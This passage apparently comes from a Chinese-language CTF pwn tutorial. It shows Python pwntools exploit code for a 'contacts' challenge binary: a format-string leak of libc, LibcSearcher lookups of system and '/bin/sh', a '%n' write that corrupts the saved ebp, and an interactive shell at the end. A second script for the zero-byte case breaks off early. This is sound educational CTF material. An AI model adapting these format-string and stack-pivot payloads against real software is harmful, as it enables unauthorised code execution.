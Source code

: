 ```py
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```

system 出现 0 截断的情况下，exp 如下:

```py
from pwn import *
context.log_level="debug"
context.arch="x86"

io=process("./contacts")
binary=ELF("contacts")
libc=binary.libc

def createcontact(io, name, phone, descrip_len, description):
    sh=io
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
```